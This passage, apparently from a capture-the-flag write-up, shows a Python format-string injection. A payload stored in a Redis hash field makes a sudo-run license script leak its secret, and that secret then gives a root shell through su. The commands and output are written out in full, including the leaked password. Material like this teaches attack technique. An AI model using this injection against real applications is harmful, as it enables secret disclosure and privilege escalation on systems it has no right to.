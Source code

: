 We control the keys from redis and they are used in a format string that is then printed to us, so we can use any of this keys in redis with curly braces to print the content of the variable we're after.    
```bash
redis /var/run/redis/redis.sock> HMSET blnkn first-name "{license.__init__.__globals__[secret_encoded]}" last-name blnkn password blnkn username blnkn
OK
redis /var/run/redis/redis.sock> HGET blnkn first-name
"{license.__init__.__globals__[secret_encoded]}"
redis /var/run/redis/redis.sock> HKEYS blnkn
1) "first-name"
2) "last-name"
3) "password"
4) "username"
redis /var/run/redis/redis.sock>
```

We get the secret back instead of our first-name 
```bash
cooper@format:~$ sudo /usr/bin/license -p blnkn

Plaintext license key:
------------------------------------------------------
microblogblnknn-v?H\48Qe~q"A{TZ*{>/2nGf@DL&UY;{|G;~6K&b'unCR4ckaBL3Pa$$w0rd'blnkn

Encrypted license key (distribute to customer):
------------------------------------------------------
gAAAAABkaNx5eFFJOyYg6iEvxZqDlj4JOK3Vd05j2aEm1t0eLlNvwV10Od7nqUOi0m5L0fcqQgULOgmg3MGeBZ95XZwE_OxdNBPNg7YV7-k0al4m3VSSsl2o6-mVEQ5EjdGLE72Ej8sk39ugOcYK_B_v2SRfY6YDrL-5CcBSFhI5WH4CA0MPFV0gBbyB4aHxClDu6gdXbISk
```

And as predicted is is the password for root
```bash
cooper@format:~$ su -
Password:
root@format:~# 
```
